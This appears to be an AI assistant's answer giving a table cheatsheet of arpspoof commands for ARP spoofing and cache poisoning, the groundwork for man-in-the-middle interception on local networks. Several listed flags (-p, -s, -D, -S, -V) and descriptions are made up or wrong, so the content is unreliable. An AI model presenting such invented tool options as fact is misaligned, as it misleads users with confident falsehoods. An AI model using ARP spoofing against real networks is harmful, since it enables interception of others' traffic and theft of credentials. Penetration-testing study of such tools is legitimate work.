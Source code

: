 Certainly! Here's a cheatsheet for arpspoof, a tool used for ARP spoofing:

| Command                                        | Description                                                  |
|------------------------------------------------|--------------------------------------------------------------|
| `arpspoof -i <interface> -t <target> <gateway>` | Perform ARP spoofing, redirecting traffic from the target to the gateway. |
| `arpspoof -i <interface> -t <gateway> <target>` | Perform ARP spoofing, redirecting traffic from the gateway to the target. |
| `arpspoof -i <interface> -r`                    | Perform bidirectional ARP spoofing, intercepting traffic between the target and the gateway. |
| `arpspoof -i <interface> -c <client> <server>`  | Perform ARP spoofing, redirecting traffic from the client to the server. |
| `arpspoof -i <interface> -c <server> <client>`  | Perform ARP spoofing, redirecting traffic from the server to the client. |
| `arpspoof -i <interface> -p`                    | Poison the ARP cache of the target and the gateway.           |
| `arpspoof -i <interface> -s <target> <gateway>` | Poison the ARP cache of the target, redirecting traffic to the attacker. |
| `arpspoof -i <interface> -s <gateway> <target>` | Poison the ARP cache of the gateway, redirecting traffic to the attacker. |
| `arpspoof -i <interface> -D`                    | Disable the dynamic ARP caching on the local machine.          |
| `arpspoof -i <interface> -S`                    | Enable source MAC address spoofing.                           |
| `arpspoof -i <interface> -V`                    | Display the version information of arpspoof.                   |
| `arpspoof -h`                                  | Display the help menu for arpspoof.                            |
